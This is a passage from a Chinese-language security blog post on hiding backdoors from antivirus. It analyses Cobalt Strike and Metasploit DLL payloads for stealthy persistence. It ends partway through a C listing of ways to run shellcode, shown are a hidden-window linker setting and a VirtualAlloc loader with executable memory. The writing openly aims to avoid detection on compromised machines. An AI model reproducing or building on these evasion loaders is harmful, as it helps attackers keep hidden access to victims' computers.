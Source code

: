 ```yaml
---
title: 后门免杀 - DLL中执行SHELLCODE
layout: post
tags:
  - 代码分享
category: 信息安全-逆向方向

excerpt: "本文主要记述了对 Cobaltstriker 和 metasploit 中 DLL 后门分析的过程，并介绍了两者间 DLL 中执行 SHELLCODE 方式的区别，最后，还原了 metasploit 方式的代码，附在文末尾。"
comments: true
image:
  feature: https://images.unsplash.com/photo-1440635592348-167b1b30296f?crop=entropy&dpr=2&fit=crop&fm=jpg&h=475&ixjsv=2.1.0&ixlib=rb-0.3.5&q=50&w=1250
  credit: thomas shellberg
  creditlink: https://unsplash.com/photos/Ki0dpxd3LGc
---
```

## 引言及简介

在常规的权限维持手法中，后门启动的次数一般比较固定，一般都是在固定的时间或者开启电脑时启动，例如注册表的启动项，开机的启动目录，计划任务的写入等等这些。但是，随着攻防对抗的逐步升级，权限的维持已经不止止仅限于这些手法，权限维持的手法开始变得更加丰富多彩起来，而且这些权限维持手法，大多倾向于逻辑触发（进行某个常用操作时触发），如果使用了这样的权限维持手法，我们的后门就会被重复触发很多次，特别是在一些场景中使用的时候，不仅仅触发更多的无意义操作，有时还会引起进程的重复启动，影响了机器的使用，使我们漏出了一些蛛丝马迹。这时，常见的框架，例如MSF，CS生成的后门已经无法满足我们的需求了，只有重新构建的后门才能在这样的场景中使用。

对此，我们使用MSF或CS生成的PAYLOAD来嵌入自己的SHELL BOX。发现自己构建的DLL，与CS生成的DLL稳定性低，唯有MSF生成的DLL稳定性高，开始逆向MSF的DLL后门，构建SHELL BOX。

## 探索之路一：

我们参考了网上别人各种各样的shellcode运行方式，在C语言中，大致有五种，不过在DLL+stage中场景中，居然没有一种能正常使用

![IMG_256](http://ww3.sinaimg.cn/large/006tNc79ly1g36r3e8ugvj305k05k0sj.jpg)

应该是这样说，方式是能够使SHELLCODE运行起来的，不过在stage阶段就会出现问题，虽然用这些方式没法成功，不过我们还是大致介绍一下。

此外，这里再特别强调一下，这些方式在EXE中是可以完成整个流程的，不过在DLL中会卡在STAGE阶段。

学(tou)习(lai)自博客：https://blog.csdn.net/liujiayu2/article/details/78294752

{% highlight c %}
    //C语言执行shellcode的五种方法 
    #include <windows.h> 
    #include <stdio.h> 
    //data段可读写 
    #pragma comment(linker, "/section:.data,RWE") 
    //不显示窗口 
    #pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"") 
    #pragma comment(linker, "/INCREMENTAL:NO") 
    //一段打开Windows计算器(calc.exe)的shellcode 
    unsigned char shellcode_calc[] = "\x shellcode"; 
    unsigned char shellcode[] = "\x shellcode"; 
    typedef void (__stdcall *CODE) (); 
    void RunShellCode_1() //第一种方法 
    { 
      PVOID p = NULL; 
      if ((p = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)) == NULL) 
        MessageBoxA(NULL, "申请内存失败", "提醒", MB_OK); 
      if (!(memcpy(p, shellcode, sizeof(shellcode)))) 
        MessageBoxA(NULL, "写内存失败", "提醒", MB_OK); 
      CODE code =(CODE)p; 
      code(); 
    } 
    void RunShellCode_2() //第二种方法 